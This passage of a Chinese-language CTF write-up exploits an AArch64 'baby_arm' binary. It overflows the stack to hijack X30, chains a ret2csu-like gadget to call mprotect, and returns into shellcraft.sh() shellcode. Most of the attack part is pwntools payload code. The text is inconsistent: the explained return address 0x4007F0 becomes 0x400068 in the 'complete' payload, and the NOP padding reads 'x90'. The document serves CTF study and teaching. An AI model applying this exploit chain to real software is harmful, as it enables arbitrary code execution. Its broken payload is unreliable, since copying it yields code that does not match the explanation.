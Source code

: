 可见，我们无法篡改X29和X30寄存器，但是！当此函数执行完毕后，SP指针会回到Buf的结束位置，之后main函数会直接从那里取出地址返回，我们就可以劫持main函数的PC指针。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-033156.png)

那么padding长度必定为0x40，然后覆盖X29寄存器的值，然后就能覆盖X30(返回地址所在寄存器)

`padding = 'A' * 0x40 + p64(0xdeadbeef)`

接下来我们需要控制`X0-X3`寄存器，以完成`mprotect(0x411000,0x1000,7)`的构造。

很可惜，没有符合要求的gadget~

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-16-151622.png)

但是我们在程序中发现了这样的代码：

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-16-151727.png)

可以看到这段代码非常像我们在Intel/AMD架构下利用的`ret2csu`的代码，那么此处我们可以进行利用。

自`0x4008CC`处的代码开始，程序会依次对`X19、X20、X21、X22、X23、X24、X29、X30`赋值。

⚠️：**此处请特别注意！X29，X30取的是SP指针指向处的值，因此在栈上应当布置成`X29、X30、X19、X20、X21、X22、X23、X24`的顺序！**

我们若接下来将PC劫持到`0x4008AC`处，程序将执行`LDR X3,[X21,X19,LSL#3]`，那么此句汇编的意义是，将X19的值逻辑左移(Logical Shift Left)三位后加上X21的值，**取其所指向的值**存储在X3寄存器中。接下来是把X22寄存器的值作为第三个参数，把X23寄存器的值作为第二个参数，把X24寄存器的值(的低32位)作为第一个参数，给X19寄存器的值加一，调用X3寄存器所指向的函数。

我们只需要控制X19为0，`LDR X3,[X21,X19,LSL#3]`其实就是`LDR X3,[X21]`那么我们需要找一个可控地址写入`mprotect[@plt](https://github.com/plt)`，此时BSS就成了我们的最佳选择。

那么我们可以构造此处的payload：

```
payload  = padding + p64(0x4008CC)       # X19 , X20
payload += p64(0xdeadbeef)               # X29
payload += p64(0x4008AC)                 # X30
payload += p64(0) + p64(1)               # X19 , X20
payload += p64(0x411068 + 0x100)         # X21
payload += p64(0x7)                      # X22
payload += p64(0x1000)                   # X23
payload += p64(0x411000)              # X24
```

接下来，我们需要让程序继续返回溢出函数，以劫持PC到shellcode处。

```
payload += p64(0xdeadbeef)               # X29
payload += p64(0x4007F0)                 # X30
payload += p64(0) * 0x6                  # X19 - X24
```

于是，完整的payload为

```
shell_code = asm(shellcraft.sh())
shell_code = shell_code.ljust(0x100,'x90')
shell_code = shell_code + p64(baby_arm.plt['mprotect'])
padding  = 'A' * 0x40 + p64(0xdeadbeef)
payload  = padding + p64(0x4008CC)       # X19 , X20
payload += p64(0xdeadbeef)               # X29
payload += p64(0x4008AC)                 # X30
payload += p64(0) + p64(1)               # X19 , X20
payload += p64(0x411068 + 0x100)         # X21
payload += p64(0x7)                      # X22
payload += p64(0x1000)                   # X23
payload += p64(0x411000)                 # X24
payload += p64(0xdeadbeef)               # X29
payload += p64(0x400068)                 # X30
payload += p64(0) * 0x6                  # X19 - X24
```